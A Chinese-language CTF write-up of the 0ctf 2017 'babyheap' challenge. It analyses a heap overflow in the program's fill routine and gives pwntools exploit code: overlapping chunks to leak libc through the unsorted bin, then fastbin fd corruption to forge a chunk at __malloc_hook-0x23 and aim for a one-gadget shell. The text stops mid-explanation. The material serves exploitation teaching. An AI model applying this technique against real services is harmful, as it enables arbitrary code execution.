# 0ctf 2017 baby heap

本文档在线地址：[https://github.com/TCPsoftware/wlgfjc-misc/blob/main/ex2B-babyheap/README.md](https://github.com/TCPsoftware/wlgfjc-misc/blob/main/ex2B-babyheap/README.md)

本文脚本详见：[https://github.com/TCPsoftware/wlgfjc-misc/blob/main/ex2B-babyheap/exploit_the_babyheap.py](https://github.com/TCPsoftware/wlgfjc-misc/blob/main/ex2B-babyheap/exploit_the_babyheap.py)

## 库替换（用于非Ubuntu16的运行测试）

ldd首先查看原本的库



然后查看当前目录已获取libc和对应的ld
然后执行patchelf，替换库

```bash
#设置解释器
patchelf --set-interpreter ./ld-2.23.so ./0ctfbabyheap
#设置libc
patchelf --replace-needed libc.so.6 ./libc-2.23.so ./0ctfbabyheap
```



然后查看现在的二进制文件，可以看到对应的库已经变为了当前目录下的两个文件



## 程序分析

调试环境为 WSL 2，Ubuntu 22.04。（所以最后getshell会闪退）

checksec查看保护



试运行，是一个有菜单的程序，程序中可以进行内存管理，想必是堆溢出问题。



IDA查看主函数，循环根据用户输入来进行处理，

输入1 2 3 4时对应申请，写入，释放，查看这几个操作，

除此之外在主函数中，如果输入5则return 0结束程序，如果是其他情况则继续循环。



IDA查看分配函数，程序除了存储直接的数据之外还有存储一些状态信息：



IDA查看内容写入函数，会输入用户指定长度的数据，而不是本身的最大长度，这里导致了问题的出现，会导致溢出。



IDA查看释放函数，程序会重置inuse，然后free掉



IDA查看内容查看函数，程序会输出用户指定的块的内容。



## 堆分析

使用下面代码来观察一下堆的结构

```python
allo(0x10)#0
allo(0x10)#1
allo(0x10)#2
allo(0x10)#3
allo(0x80)#4

fill(0,0x10,b"0"*0x10)#0
fill(1,0x10,b"1"*0x10)#1
fill(2,0x10,b"2"*0x10)#2
fill(3,0x10,b"3"*0x10)#3
fill(4,0x80,b"4"*0x80)#4

free(1)
free(2)
```

此处申请四块空间，然后释放1、2，然后查看内存。



可以看到fastbin第一个为b040，第二个为b020，就是2 1的顺序。



在内存中可以看到b000、b020、b040、b060、b080是刚才申请和写入的内容，

其中末尾的字节（第二行的16个字节）是刚才写入的0、1、2、3（0x30、0x31、0x32、0x33）

而chunk 1 2的第二行前一半在刚才被释放后，已经被写入了其他内容（fd指针）

这个内容根据释放顺序存内存地址，chunk1为0，chunk2为b020即1的地址，

这里就是单向链表的指针部分，存放下一个块的地址，最后一个块下一个地址为0

也可以通过pwngdb的heap指令来查看程序的堆的情况：（这里是新运行的，堆地址与上面不同）



## 构造payload，泄露libc地址

这个程序没有什么地方可以getshell的，所以可以考虑通过libc获取shell，

在libc（2.23）中这里有getshell代码片段，所以目标是跳转到这个地址 0x4526a

（可以通过one-gadget工具扫描找到这样的getshell地址）



在之前可以看到程序开启了PIE（Position Independent Executable），所以需要先想办法获取到 libc 的基地址先（每次执行程序时这个地址都不同）

此处的思路时通过unsortedbin-attack，获取unsortedbin的地址，根据偏移来算出libc的地址，根据偏移算出getshell的地址。

构造payload，再次运行。

```python
alloc(0x80)# Chunk 0
alloc(0x80)# Chunk 1
alloc(0x80)# Chunk 2
alloc(0x80)# Chunk 3
fill(0, 0x80, "0"*0x80)
fill(1, 0x80, "1"*0x80)
fill(2, 0x80, "2"*0x80)
fill(3, 0x80, "3"*0x80)
payload0 = b'a'*(0x80 + 8) + p64(0x120 + 1)
# payload0 = b'a'*(0x80)
fill(0, len(payload0), payload0)
free(1)
# target.recv()
# target.recv()
alloc(0x80) # Chunk 1
```

这一块代码是分配四个块，每个大小为0x80，然后分别填入内容，

然后溢出chunk0，覆盖chunk1的size部分，具体的空间计算为：

0x80个a，填充chunk0，8个a，覆盖chunk1的prevsize，然后使用大小0x120覆盖chunk1的大小，

> 0x120是两个chunk的大小，一个chunk的大小是0x80加头部0x10大小共0x90。  
> +1是似乎是代码要求，大概是为了末尾的三个字节设计的？

操作完之后的内存是长这个样子的，划线部分为chunk2部分，它同时也是bin里面的一块，



在刚才覆盖chunk1的大小后，free 1时，识别到chunk1大小为两个chunk的大小，所以加入到unsortedbin，

然后又alloc，申请大小为一个chunk大小，此时会把刚才的空间对半分，前半部分给chunk1，
后半部分将fd指针和bk指针部分写入unsortedbin的地址。

但是chunk2实际上一直都在程序中，但是内存管理误以为chunk2部分是可用的，来进行管理，

此时对于内存管理程序，chunk2部分是prevsize(8)+size(8)+fd(8)+bk(8)+data(0x70)

而对于程序来说，chunk2是prevsize(8)+size(8)+data(0x80)，此时fd指针和bk指针是chunk2的数据的前16字节。

所以可以通过dump chunk2的数据，获得fd bk指针，也就是unsortedbin的地址，通过与libc的偏移可以算出libc的基地址

```python
content2 = dump(2)
leak = u64(content2[0:8])
libc = leak - 0x58 - 0x10 - elf.symbols['__malloc_hook']
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk_loc = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("libc is:        " + hex(libc))
log.info("System is:      " + hex(system))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Free hook is:   " + hex(free_hook))
log.info("Fake chunk location is:  " + hex(fake_chunk_loc))
```

输出内容为：

```python
[*] Leak is:        0x7f112fb5ab78
[*] libc is:        0x7f112f797000
[*] System is:      0x7f112f7dc26a
[*] Malloc hook is: 0x7f112fb5ab10
[*] Free hook is:   0x7f112fb5c7a8
[*] Fake chunk location is:  0x7f112fb5aaed
```

下一步需要将malloc_hook的内容修改为getshell的地址，使用

```python
alloc(0x80) # Chunk 4(和2是同一块内存，并且2 4都是程序中的有效块)
alloc(0x60) # Chunk 5
alloc(0x60) # Chunk 6
fill(4, 0x80, "4"*0x80)
fill(2, 0x40, "2"*0x40)
fill(5, 0x60, "5"*0x60)
fill(6, 0x60, "6"*0x60)
dump2 = dump(2)
print(dump2)
print(hexdump(dump2)) # 4和2是同一块内存，并且2 4都是程序中的有效块
dbg=1

# print(hexdump(dump2))的结果为：
00000000  32 32 32 32  32 32 32 32  32 32 32 32  32 32 32 32  │2222│2222│2222│2222│
*
00000040  34 34 34 34  34 34 34 34  34 34 34 34  34 34 34 34  │4444│4444│4444│4444│
*
00000080  0a                                                  │·│
```

运行后结果如图所示，可以观察到Chunk2和Chunk4使用的是同一块内存区域，因为刚才的1的操作，导致2在内存中误以为是可用的，所以分配给了4。





其中Chunk0内容是0x61，是  
`payload0 = b'a'*(0x80 + 8) + p64(0x120 + 1)`  
`fill(0, len(payload0), payload0)`  
写入的字母a，Chunk1内容为0x00，是堆alloc时自动清空  
Chunk2/4内容一半为0x32一半为0x34，因为刚才写入了80字节4又写入了40字节的2，  
Chunk3、5、6内容为0x33、0x35、0x36，是 fill 时填入的3、5、6。

## 构造payload，覆盖malloc_hook

下一步是构造虚假chunk，覆盖malloc_hook函数，完成getshell。

首先 free 掉 5 也就是倒数第二个区块，在内存中chunk5对应的块会启用fd指针，

此时可以通过chunk3的溢出来覆盖原chunk5内存块的fd指针。

当下一次alloc的时候会将原chunk5的区块分配（如果大小合适），

当我们伪造chunk5的fd时，fastbin会指向chunk5的fd，就会误认为还有一个可用块。

```python
free(5) # 先释放，然后修改Chunk3来溢出填充
payload3 = b'b'*(0x80) + p64(0x70 + 1) + p64(0x70 + 1) + p64(fake_chunk_loc) + p64(0)
fill(3, len(payload3), payload3)
```

这里0x80个b填充chunk3的空间，然后chunk5的prevsize和size都设置为了0x81，然后chunk5的fd设置为了fake_chunk_loc即`malloc_hook - 0x23`，chunk5的bk位置设置为0（实际不启用）。

为什么是-0x23呢？因为刚好可以构成一个size=27的结构，让对管理器以为是一个0x7f大小的可用的fastbin chunk，

从 `__malloc_hook - 0x20` 到 `__malloc_hook - 0x23` 的示意图如下，可以观察到尖括号标注的0x7f被移动到第二行，构成了一个size的数据表示。

```python
pwndbg> x/48xb 0x7f39c88a8b10-0x20
0x7f39c88a8af0:                         0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>  0x00    0x00
0x7f39c88a8af8:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b00 <__memalign_hook>:       0xf0    0xa3    0x56    0xc8    0x39    0x7f    0x00    0x00
0x7f39c88a8b08 <__realloc_hook>:        0xd0    0x9f    0x56    0xc8    0x39    0x7f    0x00    0x00
0x7f39c88a8b10 <__malloc_hook>:         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b18:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x21
0x7f39c88a8aef:                         0x00    0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>  0x00
0x7f39c88a8af7:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8aff:                         0x00    0xf0    0xa3    0x56    0xc8    0x39    0x7f    0x00
0x7f39c88a8b07 <__memalign_hook+7>:     0x00    0xd0    0x9f    0x56    0xc8    0x39    0x7f    0x00
0x7f39c88a8b0f <__realloc_hook+7>:      0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b17 <__malloc_hook+7>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x22
0x7f39c88a8aee:                         0x00    0x00    0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>
0x7f39c88a8af6:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8afe:                         0x00    0x00    0xf0    0xa3    0x56    0xc8    0x39    0x7f
0x7f39c88a8b06 <__memalign_hook+6>:     0x00    0x00    0xd0    0x9f    0x56    0xc8    0x39    0x7f
0x7f39c88a8b0e <__realloc_hook+6>:      0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b16 <__malloc_hook+6>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x23
0x7f39c88a8aed:                         0x00    0x00    0x00    0x60    0x72    0x8a    0xc8    0x39
0x7f39c88a8af5:                       <'0x7f'>  0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8afd:                         0x00    0x00    0x00    0xf0    0xa3    0x56    0xc8    0x39
0x7f39c88a8b05 <__memalign_hook+5>:     0x7f    0x00    0x00    0xd0    0x9f    0x56    0xc8    0x39
0x7f39c88a8b0d <__realloc_hook+5>:      0x7f    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b15 <__malloc_hook+5>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

在此之后将chunk5申请回来，对管理器就会将fastbin指向原chunk5的fd，

然后再申请一个chunk，此时它的编号为7，是经过构造的fake chunk，

它的位置是 `__malloc_hook - 0x23` 开始的，大小是0x10+0x60=0x70

